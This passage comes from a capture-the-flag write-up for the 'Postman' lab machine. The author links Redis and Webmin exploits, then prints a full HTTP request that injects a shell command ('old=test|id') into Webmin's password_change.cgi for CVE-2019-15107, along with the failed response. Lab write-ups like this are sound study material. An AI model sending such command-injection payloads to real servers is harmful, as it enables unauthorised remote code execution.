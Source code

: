 This seems to work, here is the exploit, I will try it later:

[GitHub - vulhub/redis-rogue-getshell: redis 4.x/5.x master/slave getshell module](https://github.com/vulhub/redis-rogue-getshell)

### Port 10000 (Webmin)

---

I think I saw the service webmin already. I searched through my old write ups and for the box beep, I found a vulnerability and an exploit, which I couldn't use in beep because it had another version. But this version seems to match. Here is the exploit:

[vulhub/webmin/CVE-2019-15107 at master · vulhub/vulhub](https://github.com/vulhub/vulhub/tree/master/webmin/CVE-2019-15107)

# Exploitation

---

I first try the webmin RCE, if it does not work, I can switch to the Redis exploit.

## Webmin RCE

---

I try sending the following Request to the server:

```
POST /password_change.cgi HTTP/1.1
Host: postman.htb:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://postman.htb:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```

I got this response, telling me that password change is not enabled, so this method does not work:

```
HTTP/1.0 500 Perl execution failed
Server: MiniServ/1.910
Date: Thu, 9 Sep 2021 19:48:20 GMT
Content-type: text/html; Charset=iso-8859-1
Connection: close

<h1>Error - Perl execution failed</h1>
<p>Password changing is not enabled! at /usr/share/webmin/password_change.cgi line 12.
</p>
```
